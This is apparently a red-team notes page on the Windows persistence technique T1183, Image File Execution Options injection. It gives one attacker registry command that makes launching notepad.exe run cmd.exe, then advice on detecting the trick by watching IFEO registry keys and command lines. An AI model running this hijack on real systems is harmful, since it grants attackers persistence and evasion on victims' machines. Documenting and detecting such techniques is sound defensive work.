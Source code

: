 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching a notepad on the victim system:

![](../.gitbook/assets/ifeo-notepad.png)

![](../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring commandline arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting these manipulations:

![](../.gitbook/assets/ifeo-cmdline.png)

![](../.gitbook/assets/ifeo-cmdline2.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1183\",\"type\":\"link\",\"title\":\"Image File Execution Options Injection - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/\",\"type\":\"link\",\"title\":\"Image File Execution Options \(IFEO\)\",\"description\":\"\[NOTE: This is a repost from my old blog www.debugtricks.com. The old blog no longer exists and I’ll be migrating my old posts over to this blog.\]  Image File Execution options provides you with a mechanism to always launch an executable directly under the debugger. This is extremely useful if you ever need to investigate...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blogs.msdn.microsoft.com/mithuns/wp-content/themes/microsoft-msdn/images/favicon-msdn.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://msdnshared.blob.core.windows.net/media/MSDNBlogsFS/prod.evol.blogs.msdn.com/CommunityServer.Blogs.Components.WeblogFiles/00/00/00/55/05/0572.gflags.gif\",\"width\":546,\"height\":536,\"aspectRatio\":0.9816849816849816}}" %}

{% embed data="{\"url\":\"https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/\",\"type\":\"link\",\"title\":\"A Debugging Approach to IFEO\",\"description\":\"IFEO \(Image File Execution Options\) is a feature provided by the NT based operating system. It can be helpful when you are trying to debug at the very beginning of an application launch. A few people also taked about IFEO on MSDN Blogs: Image File Execution Options by Junfeng. Inside ‘Image File Execution Options’ debugging...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blogs.msdn.microsoft.com/reiley/wp-content/themes/microsoft-msdn/images/favicon-msdn.png\",\"aspectRatio\":0}}" %}

